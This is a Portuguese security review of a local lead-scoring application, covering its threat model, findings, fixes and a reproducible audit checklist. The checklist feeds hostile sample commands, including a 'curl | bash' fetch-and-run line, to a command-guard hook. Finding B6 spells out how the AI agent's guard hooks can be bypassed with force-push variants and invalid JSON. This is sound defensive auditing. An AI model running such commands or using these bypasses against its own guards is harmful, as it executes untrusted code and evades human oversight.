

# Revisão de segurança — Lead Scorer

Revisão executada em **2026-09-23** pelo agente `security-engineer` sobre a árvore de `submissions/bernardo-couto/` (API FastAPI, web React/nginx, pipeline PySpark, docs MkDocs, Docker Compose, hooks do Claude Code e process log). Todos os números e saídas abaixo vieram de comandos executados nesta revisão; a seção "Checklist reproduzível" permite repeti-los.

**Resumo executivo.** Nenhum achado crítico ou alto em código de runtime. `pip-audit` limpo nos quatro projetos Python (92 pacotes pinados), `detect-secrets` sem findings (27 plugins), licenças permissivas. Os achados relevantes eram de **configuração** e foram corrigidos nesta revisão: headers de segurança que o nginx descartava em `/assets/`, dois contextos de build Docker sem `.dockerignore`, containers sem `no-new-privileges`/`cap_drop`, staging que deixaria passar arquivos gerados. O que resta são vulnerabilidades em **dependências de desenvolvimento** do web (não embarcadas na imagem), a ausência deliberada de autenticação (ferramenta local de demonstração) e recomendações pontuais de código, listadas com arquivo e linha para os agentes responsáveis.

| Severidade | Abertos | Corrigidos nesta revisão | Aceitos com justificativa |
|---|---|---|---|
| Crítica | 0 | 0 | 0 |
| Alta | 0 | 0 | 0 |
| Média | 1 (M2, decisão) | 2 (M4, M5) | 2 (M1, M3) |
| Baixa | 4 (B3, B4, B5, B6) | 3 (B1, B2, B7) | 0 |
| Informativa | 4 | 0 | 1 |

## Modelo de ameaças

### Ativos

| Ativo | Por que importa | Onde vive |
|---|---|---|
| Dados do CRM (8.800 oportunidades, 4 tabelas) | Públicos (CC0, Kaggle), sem PII real. Em uma empresa real, **nomes de vendedores e gerentes são dados pessoais** (LGPD) e contas são informação comercial sensível. | `solution/data/raw/` (imutável, `SHA256SUMS`) → bronze/silver/gold |
| Scores e *reason codes* por deal | Expõem desempenho individual (`AGENT_TRACK_RECORD`, `AGENT_OVERLOAD`). Ranking mal usado vira instrumento punitivo. | `data/gold/scores/as_of=…` (parquet), API `/deals`, `/agents`, `/pipeline/summary` |
| Feedback do vendedor | Texto livre (`note`, 500 chars) + `actor` autodeclarado. Único dado **gravado** pela API. | `data/feedback/actions.parquet` (volume rw) |
| Artefatos do modelo | `models/latest` → `metrics.json`, `feature_list.json`, `model_card.md`, `pipeline_model/` (Spark ML). Integridade = confiança no score. | `solution/models/` (volume ro na API) |
| Repositório e PR | Segredos, credenciais Kaggle, `.env`, exports de chat com caminhos/tokens. PR é público. | `submissions/bernardo-couto/**`, `process-log/chat-exports/` |
| Máquina de quem executa | `docker compose up` e hooks do Claude Code rodam código local. | Docker daemon, `.claude/hooks/*.py` |

### Atores e vetores



| Ator | Capacidade | Vetores considerados |
|---|---|---|
| Vendedor / gerente (usuário legítimo) | Acesso total à UI e à API (não há login) | Ver scores de qualquer colega; registrar feedback em nome de outro (`actor` livre); ler todas as notas via `GET /feedback` |
| Site malicioso aberto no mesmo navegador | Requisições cross-origin | CORS permissivo; CSRF em `POST /feedback`; *DNS rebinding* contra dev servers (Vite/esbuild) |
| Atacante na mesma rede | HTTP nas portas publicadas (8000, 5173, 8001) | Mesmos vetores do usuário legítimo, sem precisar da UI; payloads grandes; *fingerprint* por `Server:` |
| Cadeia de suprimentos | Publicar pacote/CDN comprometido | Dependências PyPI/npm sem pin; script de terceiros carregado em runtime |
| Contribuidor / agente de IA | Edita o repositório | Commitar segredos, dados gerados, arquivos fora da pasta; hooks contornáveis |
| Operador do pipeline | Escreve `models/` e `gold/` | Ponteiro `models/latest` apontando para fora de `models/`; artefatos fora do contrato |

Fora de escopo (assumido explicitamente): a solução é uma **ferramenta interna executada localmente** para o challenge; não há TLS, identidade nem multi-tenancy. Onde isso muda a análise, o achado diz o que seria necessário em produção.

## Achados

Severidade segue a intuição CVSS ajustada ao contexto (ferramenta local, dados públicos): **Média** = exploração plausível com impacto real neste contexto ou dívida que vira Alta em produção; **Baixa** = *hardening*/defesa em profundidade; **Info** = registro sem ação obrigatória.

### Médios

| ID | Achado | Evidência | Correção | Status |
|---|---|---|---|---|
| **M1** | **Nenhuma rota tem autenticação ou autorização.** Qualquer cliente lê o pipeline inteiro (todos os vendedores) e grava feedback com `actor` autodeclarado; `GET /feedback` devolve `note`/`actor` de todos. | `solution/api/src/api/main.py:109-115` (só CORS), `routers/feedback.py:39-53`, `:67-71`. `curl -s localhost:8000/api/v1/meta` responde sem credencial. | Para o challenge: aceito e documentado (ferramenta local; brief não pede login). Para produção real: SSO (OIDC) na borda (nginx/ingress), `actor` derivado do token e não do corpo, filtro por papel (vendedor vê o próprio recorte; gerente vê o time), *rate limit* em `POST /feedback`. | **Aceito com justificativa** (registrar em `docs/limitations.md`) |
| **M2** | **Toolchain de desenvolvimento do web com vulnerabilidades conhecidas.** `npm audit`: 7 findings (1 crítico, 1 alto, 5 moderados), **todos em devDependencies** (vitest 2.1.9, vite 5.4.21, esbuild 0.21.5). Não entram na imagem: o Dockerfile roda `npm run build` e copia só `dist/` para `nginx:alpine`. Risco real limitado à máquina de quem roda `npm run dev`/`vitest --ui`. | `vitest` crítico GHSA-5xrq-8626-4rwp (exige Vitest UI server, não usado); `vite` alto GHSA-fx2h-pf6j-xcff (`server.fs.deny` bypass, só Windows); `esbuild` moderado GHSA-67mh-4wv8-2f99 (qualquer site lê respostas do dev server). Saída completa na checklist. | Bump *major*: `vite ^6`/`^7` (esbuild ≥ 0.25) e `vitest ≥ 3.2.6` (ideal ≥ 4.1.11), com `@vitejs/plugin-react` compatível; rodar `npm test`, `npm run lint`, `npm run build`. Não aplicado aqui porque `web/src` está em edição concorrente e o bump é *breaking* na toolchain. Mitigação imediata: nunca expor o dev server fora de `localhost` (padrão do Vite já é `localhost`). | **Aberto — decisão do orquestrador** |
| **M3** | **`react-router-dom` 6.30.6 (runtime) com 2 CVEs moderados.** GHSA-wrjc-x8rr-h8h6 (open redirect via `\` em `<Link>`/`useNavigate`, exige destino controlado pelo atacante) e GHSA-337j-9hxr-rhxg (injeção via `deserializeErrors()` em **SSR**). | `npm audit --json`: `react-router range=6.0.0 - 7.17.0`, fix = `react-router-dom@7.18.4` (*semver major*). A SPA não usa SSR e navega só para rotas internas constantes (`nav.queue/team/quality` em `web/src/i18n/pt-BR.ts`). | Aceitar por ora (pré-condições de exploração ausentes) **ou** migrar para v7 (imports de `react-router-dom` continuam válidos em v7; mudança pequena). Regra de código para o `application-engineer`: nunca passar valor vindo de query string/API direto a `navigate()`/`<Link to>`. | **Aceito com justificativa — decisão** |
| **M4** | **nginx descartava todos os headers de segurança em `/assets/`.** `add_header` não é herdado por uma `location` que declara o próprio `add_header`; a `location /assets/` (que serve o JS/CSS do app) só tinha `Cache-Control`. | Antes: `curl -sI :5173/assets/app.js` → só `Cache-Control`. Depois (nginx standalone com o novo conf): `X-Content-Type-Options`, `X-Frame-Options: DENY`, `Referrer-Policy`, `Permissions-Policy`, `Content-Security-Policy` presentes em `/` **e** em `/assets/`. | `solution/web/nginx.conf`: bloco de headers repetido na `location /assets/`; CSP endurecida com `script-src 'self'; object-src 'none'; base-uri 'self'; form-action 'self'`. | **Corrigido** |
| **M5** | **Dois dos três contextos de build não tinham `.dockerignore`.** `web` (contexto `./web`, `COPY . .` **depois** de `npm ci` → `node_modules` do host sobrescrevia a instalação limpa e qualquer `.env*` local entrava na imagem de build) e `docs` (contexto = **raiz da submissão**, sem `.dockerignore` → `node_modules`, `.venv`, `data/`, `.claude/`, `.env*` iam inteiros para o daemon). `solution/.dockerignore` só cobria `.env` na raiz. | `docker compose build docs` após a correção: `transferring context: 377.93kB` (antes: dezenas de MB incluindo `web/node_modules`). `web` build: `transferring context: 311B` de `.dockerignore`. | Criados `solution/web/.dockerignore` e `submissions/bernardo-couto/.dockerignore` (allowlist: só o que o Dockerfile do docs copia). `solution/.dockerignore` passou a cobrir `**/.env`, `**/.env.*`, `**/.private`, `**/*.local`, `data/feedback`, `.git`, `kaggle.json`, `credentials.json`. | **Corrigido** |

### Baixos

| ID | Achado | Evidência | Correção | Status |
|---|---|---|---|---|
| **B1** | nginx do web sem `server_tokens off`, sem limite de corpo e sem `X-Forwarded-Proto`/`X-Real-IP` no proxy. | Depois: `Server: nginx` (sem versão); `POST` de 70 kB em `/api/v1/feedback` → **413**; `POST` pequeno chega ao upstream (502 com upstream desligado, provando que o limite não interfere). | `nginx.conf`: `server_tokens off; client_max_body_size 64k;` e headers de proxy. | **Corrigido** |
| **B2** | Containers sem `no-new-privileges` nem `cap_drop`. `web` e `docs` (nginx oficial) rodam o master como **root** (`uid=0`). | `docker compose run --rm api sh -c 'grep Cap /proc/self/status'` → `CapEff: 0000000000000000`, `NoNewPrivs: 1`; mesmo para `pipeline`. `web`/`docs`: `uid=0(root)`. | `docker-compose.yml`: `security_opt: [no-new-privileges:true]` nos 4 serviços; `cap_drop: [ALL]` em `api` e `pipeline` (não-root, sem porta privilegiada). nginx mantém caps padrão porque faz *bind* em :80 e troca para o usuário `nginx` sozinho. **Recomendação** (Dockerfiles `web` e `docs-site`): base `nginxinc/nginx-unprivileged:alpine`, `listen 8080`, mapear `5173:8080`/`8001:8080` e então `cap_drop: [ALL]` também neles. | **Corrigido (compose)** · recomendação nos Dockerfiles |
| **B3** | Site de docs: `Server: nginx/1.31.6` exposto; sem `Referrer-Policy`/CSP; **mermaid carregado de `https://unpkg.com/mermaid@10.4.0/dist/mermaid.esm.min.mjs`** (script de terceiro em runtime, sem pin por hash — vetor de cadeia de suprimentos e dependência de rede para ler a documentação). | `curl -sI :8001/` → `Server: nginx/1.31.6`, `X-Content-Type-Options`, `X-Frame-Options: SAMEORIGIN` apenas. `grep unpkg solution/docs-site/site/docs/solution-architecture/index.html`. | `solution/docs-site/Dockerfile:18`: adicionar `server_tokens off; add_header Referrer-Policy strict-origin-when-cross-origin always;`. `mkdocs.yml`: `mermaid2: { javascript: assets/javascripts/mermaid.min.js }` com o arquivo vendorizado (ou ao menos `https://cdn.jsdelivr.net/npm/mermaid@10.4.0/dist/mermaid.esm.min.mjs` fixo) — permite CSP `script-src 'self'`. Dono: `tech-writer`. | **Aberto — recomendação** |
| **B4** | API: (a) `Server: uvicorn` exposto no acesso direto; (b) exceções não previstas caem no 500 padrão do Starlette (`Internal Server Error`, fora do envelope `{"error": …}`; **não** vaza stack trace porque `debug=False`); (c) `ArtifactsInvalidError(f"Falha ao ler {path}: {exc}")` devolve ao cliente o caminho absoluto do servidor e a mensagem bruta do pyarrow; (d) `feature_list.json` inválido não é tratado; (e) ponteiro `models/latest` textual não é confinado a `models/`. | `solution/api/src/api/repository.py:151` (c) e `:83-93` (e); `routers/model.py:57` (d); `api/Dockerfile:30` (a). `curl -sI :8000/api/v1/health` → `server: uvicorn`. | `backend-engineer`: (a) `uvicorn … --no-server-header`; (b) `@app.exception_handler(Exception)` → 500 `{"error":{"code":"INTERNAL_ERROR"}}` + `log.exception`; (c) logar `exc` e responder `"Falha ao ler a partição as_of=…"`; (d) `try/except json.JSONDecodeError` como em `metrics.json`; (e) em `resolve_latest_model_dir`, exigir `candidate.resolve().is_relative_to(pointer.parent.resolve())`. Validação de entrada em si está correta: `as_of` é `date`, `opportunity_id` só indexa dict, `sort` é allowlist, `limit ≤ 500`, `FeedbackCreate` com enum + `max_length`. | **Aberto — recomendação** |
| **B5** | Spark UI habilitada fora dos testes: o job abre `:4040` em todas as interfaces da máquina do desenvolvedor enquanto roda (`local[*]`). Sem `spark.jars.packages`, sem `pickle`, sem repositórios externos — ok. | `solution/pipeline/src/lead_scorer/spark.py:109` (`spark.ui.enabled` = `true` se não for teste). | `data-engineer`: `.config("spark.driver.bindAddress", "127.0.0.1")` e `.config("spark.driver.host", "127.0.0.1")`, ou `spark.ui.enabled=false` por padrão com flag `--ui` no CLI. | **Aberto — recomendação** |
| **B6** | Hooks: (a) `read_payload()` devolve `{}` em JSON inválido e todos os `PreToolUse` **permitem** (fail-open); (b) `guard_bash.py` não pega `git -C <dir> push --force` nem force via refspec `git push origin +main`. Não há `eval`/`exec` de payload; subprocessos recebem listas fixas; caminhos são resolvidos com `resolve()` antes de `relative_to` (symlinks dentro da raiz passam corretamente). | Probes: `denied=0 :: git -C x push --force origin main`, `denied=0 :: git push origin +main`, `echo 'not json' \| guard_bash.py` → exit 0 sem `deny`. Demais 6 probes negados. | `_common.py`: em `PreToolUse`, payload inválido → `deny("payload ilegível")`. `guard_bash.py`: `(r"\bgit\b.*\bpush\b.*(\s--force\b\|\s-f\b\|\s--force-with-lease\b\|\s\+\w)", …)`. | **Aberto — recomendação** (dono: orquestrador/`tech-lead`) |
| **B7** | Staging: `tools/git-stage.sh` (única porta de entrada para o PR, pois usa `git add -f`) deixaria passar `tsconfig.*.tsbuildinfo` (2 arquivos gerados) e não excluía `kaggle.json`, `credentials.json`, `*.local`, `coverage/`, relatórios do Playwright. O `.gitignore` local não listava `.mypy_cache/` (presente em 3 projetos) nem `*.tsbuildinfo`. | *Dry run* com a lista exata de excludes do script: 267 arquivos, 2 suspeitos (`tsbuildinfo`). Após a correção: 0. | `tools/git-stage.sh`: novos `--exclude` e verificação final ampliada (`/\.env`, `kaggle\.json`, `credentials\.json`, `\.tsbuildinfo$`). `.gitignore`: `.mypy_cache/`, `*.tsbuildinfo`, `.DS_Store`, `*.local`, `.private/`, `kaggle.json`, `credentials.json`, pastas de coverage/Playwright. | **Corrigido** |

### Informativos

| ID | Achado | Evidência | Ação |
|---|---|---|---|
| **I1** | Caminho local com nome de usuário da máquina (`/Users/bernardocouto/Library/Java/...`) em `.claude/skills/spark-ml-practices/SKILL.md:16`. Não é segredo; é o único caminho absoluto de máquina no repositório (chat export e docs estão limpos). | `grep -rno '/Users/[A-Za-z0-9_.-]*'` → 1 ocorrência. | Opcional: trocar por `$(/usr/libexec/java_home -v 21)`. |
| **I2** | Imagens Docker já construídas ficam obsoletas: `docker compose up -d` (sem `--build`) subiu uma API antiga que respondia `{"detail":"Not Found"}` em vez do envelope. | Observado nesta revisão; `make up` usa `--build`. | Documentar `docker compose up --build` no README como caminho canônico. |
| **I3** | Fontes carregadas de `fonts.googleapis.com`/`fonts.gstatic.com` (`web/index.html:7-12`): dependência externa em runtime e envio do IP do usuário ao Google a cada carga. CSP já restringe a esses dois hosts. | `web/index.html`. | Opcional (`product-designer`/`application-engineer`): *self-host* Manrope e Libre Baskerville (`@fontsource/*`) e remover os domínios da CSP. |
| **I4** | Portas publicadas em `0.0.0.0` (8000, 5173, 8001). Adequado para demo local; em VM compartilhada exporia a API sem auth (M1) à rede. | `docker compose ps` → `0.0.0.0:8000->8000/tcp`. | Decisão: `"127.0.0.1:8000:8000"` etc. se a demo rodar fora do laptop. Não alterado para não quebrar acesso remoto à demo. |
| **I5** | **Sem achados**: `detect-secrets` 0 findings; `pip-audit` 0 CVEs (contracts 5 pkgs, pipeline 21, api 26, docs 40); licenças Python MIT/BSD/Apache/PSF + **MPL-2.0** em `certifi` e `pathspec` (só no build do docs; copyleft fraco por arquivo, sem modificação — sem obrigação prática); npm produção: 12 pacotes MIT; sem GPL/AGPL em nenhuma árvore. `uv.lock` e `package-lock.json` presentes; `Dockerfile`s com `uv sync --frozen`/`npm ci`; sem `spark.jars.packages`, `pickle`, `eval`, `shell=True` no código. CORS: preflight de origem estranha → 400; apenas `GET/POST` e `Content-Type`. | Saídas na checklist. | — |

## Checklist reproduzível

Rode a partir de `submissions/bernardo-couto/`. Nada é instalado globalmente (`uvx`/`npx`).

```bash
# 1. Segredos (0 findings esperados; 27 plugins)
uvx detect-secrets scan --exclude-files '(node_modules|\.venv|dist/|/site/|\.mypy_cache|\.ruff_cache|package-lock\.json|uv\.lock|\.parquet|\.crc|\.png|\.db$)' . \
  | python3 -c 'import json,sys; print(len(json.load(sys.stdin)["results"]), "arquivos com findings")'
grep -rnoI '/Users/[A-Za-z0-9_.-]*' --exclude-dir=node_modules --exclude-dir=.venv --exclude-dir=site --exclude-dir=dist .   # 1 (I1)

# 2. CVEs Python (uma vez por projeto; --no-deps porque o export já vem 100% pinado)
for p in shared/lead_scorer_contracts pipeline api docs-site; do
  (cd solution/$p && uv export --no-hashes --no-emit-project --no-dev -q | grep -v '^-e' > /tmp/req.txt \
     && uvx pip-audit -r /tmp/req.txt --no-deps --disable-pip --progress-spinner off)
done
# saída obtida: "No known vulnerabilities found" x4

# 3. CVEs npm (7 findings, todos em devDependencies; ver M2/M3)
(cd solution/web && npm audit --audit-level=moderate; npm ls --omit=dev --all | grep -E 'vite|esbuild|vitest')   # nada em produção além de react-router

# 4. Licenças
for p in shared/lead_scorer_contracts pipeline api docs-site; do
  (cd solution/$p && uv export --no-hashes --no-emit-project --no-dev -q | grep -v '^-e' > /tmp/lic.txt \
     && uvx --from pip-licenses --with-requirements /tmp/lic.txt pip-licenses --summary)
done
(cd solution/web && npx --yes license-checker --production --summary)   # MIT: 12, UNLICENSED: 1 (o próprio app)

# 5. Docker
(cd solution && docker compose config --quiet && echo OK)
(cd solution && docker compose run --rm --no-deps -T api sh -c 'id; grep -E "CapEff|NoNewPrivs" /proc/self/status')      # uid=999, CapEff=0, NoNewPrivs=1
(cd solution && docker compose --profile pipeline run --rm --no-deps -T pipeline id)                                     # uid=999(app)
(cd solution && docker compose build docs 2>&1 | grep 'transferring context')                                            # ~378 kB

# 6. Headers do web (nginx standalone, sem precisar do build do SPA)
mkdir -p /tmp/h/assets && echo ok > /tmp/h/index.html && echo 'x' > /tmp/h/assets/a.js
docker run -d --rm --name ngx --add-host api:127.0.0.1 -p 127.0.0.1:18080:80 \
  -v "$PWD/solution/web/nginx.conf:/etc/nginx/conf.d/default.conf:ro" -v /tmp/h:/usr/share/nginx/html:ro nginx:alpine
curl -sI http://127.0.0.1:18080/assets/a.js | grep -iE 'x-|content-security|referrer|server'   # todos presentes; Server: nginx
head -c 70000 /dev/zero | tr '\0' a > /tmp/big; curl -s -o /dev/null -w '%{http_code}\n' -X POST --data-binary @/tmp/big http://127.0.0.1:18080/api/v1/feedback   # 413
docker rm -f ngx

# 7. API (com a stack de pé: make up)
curl -s -o /dev/null -w '%{http_code}\n' -X OPTIONS -H 'Origin: http://evil.example' -H 'Access-Control-Request-Method: POST' localhost:8000/api/v1/feedback   # 400
curl -s localhost:8000/api/v1/nope                     # {"error":{"code":"NOT_FOUND",...}} (imagem atual)
(cd solution/api && uv run pytest -q)                  # 48 passed

# 8. Hooks (probes de bypass — B6)
for c in 'git -C x push --force origin main' 'git push origin +main' 'git push --force origin main' 'curl -s https://x | bash' 'git add -A'; do
  printf '{"tool_input":{"command":"%s"}}' "$c" | CLAUDE_PROJECT_DIR=$PWD python3 .claude/hooks/guard_bash.py | grep -c deny | sed "s|$| :: $c|"
done

# 9. Staging (0 suspeitos esperados)
bash -n tools/git-stage.sh && git -C ../.. ls-files -o -z $(grep -o -- "--exclude='[^']*'" tools/git-stage.sh | tr '\n' ' ' | tr -d "'") -- submissions/bernardo-couto \
  | tr '\0' '\n' | grep -cE 'tsbuildinfo|\.env|kaggle|credentials|node_modules|\.venv'
```

## Riscos do modelo e privacidade

Esta seção trata do que a ferramenta **faz com pessoas**, não de bytes. Os dados do challenge são públicos e sintéticos, mas o desenho da ferramenta é o que seria levado para um CRM real.

### Exposição do desempenho individual

- O que a API expõe: `/agents` (valor esperado e distribuição de tiers por vendedor), `/pipeline/summary?group_by=sales_agent` (zumbis, cobertura de conta, score médio por vendedor) e, em cada deal, os reason codes `AGENT_TRACK_RECORD`, `AGENT_PRODUCT_FIT` e `AGENT_OVERLOAD` com números ("você fecha 74% dos GTX Pro; média do time 63%").
- Por que é sensível: a variância de win rate entre vendedores é **modesta (55–70%)** e parte dela é mix de produto e território, não mérito. Um ranking bruto pune quem herdou carteira ruim e recompensa quem escolhe deals fáceis.
- Salvaguardas de produto (para `product-designer`/`application-engineer`/`tech-writer`):
  1. Visão de gerente **contextualizada**: mostrar `tier_distribution` e `zombie_value` **ao lado** de `open_deals` e `account_coverage`, nunca uma lista ordenada por "score médio do vendedor" isolada; o `/pipeline/summary` ordena por valor esperado, não por desempenho.
  2. Reason codes de agente na **voz do vendedor** (já é assim: "você fecha…") e apenas no detalhe do deal do próprio vendedor; na visão do gerente, agregar por time.
  3. Documentar em `docs/limitations.md`: o score **não** é métrica de avaliação de pessoas nem insumo de remuneração; é uma fila de trabalho.
  4. Intervalos de confiança (`confidence: baixa` quando há poucos deals do agente/produto) devem aparecer na UI antes de qualquer comparação entre pessoas.

### Gaming do score (campos manipuláveis pelo próprio vendedor no CRM)

| Campo | Como inflar | Efeito no score | Monitoramento recomendado |
|---|---|---|---|
| `product` | Registrar o deal em um produto de taxa-base maior (`PRODUCT_BASE_RATE`) ou no qual o vendedor tem `AGENT_PRODUCT_FIT` alto | ↑ `p_win`, ↑ `expected_value` | Taxa de troca de produto por deal/vendedor; divergência entre produto no deal e produto faturado |
| `engage_date` / reabertura | Fechar como Lost e recriar o deal, ou editar a data, zerando `days_in_engaging` | Sai de `ZOMBIE_RISK` e volta a `SURVIVAL_POSITIVE` | Deals recriados para a mesma conta+produto em < 30 dias; distribuição de idade por vendedor vs. histórico |
| `deal_stage` | Manter em `Prospecting` (sem data → `PROSPECTING_NO_TIMELINE`, urgência neutra) ou mover para `Engaging` cedo | Move o deal entre filas; evita a penalidade de idade | Tempo mediano em Prospecting por vendedor |
| `account` | Preencher conta de porte grande (`ACCOUNT_SIZE`, `ACCOUNT_HISTORY`) para deals sem conta | ↑ `confidence`, ↑ `p_win` | Ação `account_fixed` do feedback vs. alteração real no CRM; contas com muitos deals recém-associados |
| Carteira (`AGENT_OVERLOAD`) | Descartar deals fracos para reduzir carga aparente | ↑ score dos deals restantes | Taxa de `discard` no feedback por vendedor; Lost em < 7 dias |
| Feedback (`POST /feedback`) | Registrar ações que não aconteceram, em nome de outro (`actor` livre) | Contamina o futuro *learning loop* | Autenticar `actor` (M1); cruzar `contacted`/`meeting_scheduled` com atividades do CRM antes de usar como label |

Regra geral: qualquer feature que o vendedor edita **sozinho** deve entrar no modelo com peso limitado e ser monitorada por *drift* por vendedor a cada `as_of`; o `train` job já grava `feature_list.json`, o que torna esse monitoramento um `GROUP BY sales_agent` sobre as features do gold. Nenhuma ação do feedback deve virar *label* de treino sem validação externa.

### LGPD em um deploy real

- **Dado pessoal**: nomes de `sales_agent` e `manager` (e potencialmente contatos das contas) são dados pessoais; scores por vendedor configuram **tratamento com avaliação de desempenho**. Base legal plausível: legítimo interesse (art. 7º, IX) ou execução de contrato de trabalho, com **teste de balanceamento documentado**.
- **Minimização**: a API serve o pipeline inteiro a qualquer cliente; em produção, filtrar por papel na borda (M1) e remover `note`/`actor` de `GET /feedback` para quem não é gerente do vendedor.
- **Transparência e explicação** (art. 20): os reason codes são exatamente o mecanismo de "revisão de decisões automatizadas" — manter a exigência de que **toda** linha de explicação seja exata ou por método testado (regra do `CLAUDE.md`).
- **Retenção**: `data/feedback/actions.parquet` cresce sem fim e é reescrito a cada append (`feedback_store.py:52-69`); definir retenção (ex.: 24 meses) e expurgo por `opportunity_id` encerrado.
- **Logs**: `uvicorn` registra a query string (`?sales_agent=Nome`) no access log — dado pessoal em log; em produção, desabilitar access log ou mascarar (`--no-access-log` + logging estruturado próprio).
- **Segurança da informação**: TLS na borda, autenticação, volumes com criptografia em repouso, e o `models/` como artefato assinado (hash no manifesto — o pipeline já grava `_manifest.json` por partição gold; estender ao diretório do modelo).

## O que foi alterado nesta revisão

| Arquivo | Mudança |
|---|---|
| `solution/web/nginx.conf` | Headers repetidos em `/assets/`; CSP com `script-src 'self'; object-src 'none'; base-uri 'self'; form-action 'self'`; `server_tokens off`; `client_max_body_size 64k`; `X-Real-IP`/`X-Forwarded-Proto`; `Cache-Control` único para assets. Validado com `nginx -t` e curl (M4, B1). |
| `solution/docker-compose.yml` | `security_opt: no-new-privileges:true` nos 4 serviços; `cap_drop: ALL` em `api` e `pipeline`. Verificado `CapEff=0`, `NoNewPrivs=1`, healthcheck da API continua `healthy` (B2). |
| `solution/.dockerignore` | Cobertura de segredos em qualquer profundidade, `data/feedback`, `.git`, caches (M5). |
| `solution/web/.dockerignore` | **Novo**: `node_modules`, `dist`, `.env*`, `*.local`, relatórios de teste (M5). |
| `.dockerignore` (raiz da submissão) | **Novo**: allowlist do contexto do `docs` (M5). |
| `.gitignore` | `.mypy_cache/`, `*.tsbuildinfo`, `.DS_Store`, `*.local`, `.private/`, `kaggle.json`, `credentials.json`, coverage/Playwright (B7). |
| `tools/git-stage.sh` | Novos excludes e verificação final ampliada (B7). |
| `solution/docs-site/docs/seguranca.md` | Passa a incluir este documento no site de documentação. |

Nenhum pin de dependência foi alterado (não havia CVE com correção sem *major bump*). Nenhum arquivo em `solution/**/src/` foi editado; tudo que envolve código está nas recomendações com `arquivo:linha`. Testes após as mudanças: `api` 48 passed, `contracts` 4 passed; `docker compose config` OK; imagens `docs` e `api` reconstruídas com os novos `.dockerignore` (o build do `web` estava falhando por erros de TypeScript em `web/src`, em edição concorrente pelo `application-engineer`, independente desta revisão).

## Decisões pendentes

1. **M2/M3 — toolchain do web**: subir `vite`/`vitest` (dev) e `react-router-dom` (runtime) para as versões com correção, aceitando os *major bumps*, ou registrar a aceitação de risco em `docs/limitations.md`. Recomendação: fazer o bump **depois** que o `application-engineer` estabilizar `web/src`, num commit isolado, com `npm test && npm run lint && npm run build` verdes.
2. **I4 — bind das portas**: manter `0.0.0.0` (demo acessível de outra máquina) ou `127.0.0.1` (ferramenta estritamente local).
3. **B2/B3 — nginx não-root e mermaid vendorizado**: mudanças nos Dockerfiles `web`/`docs-site` e no `mkdocs.yml`; baixo risco, mas tocam arquivos de outros agentes.
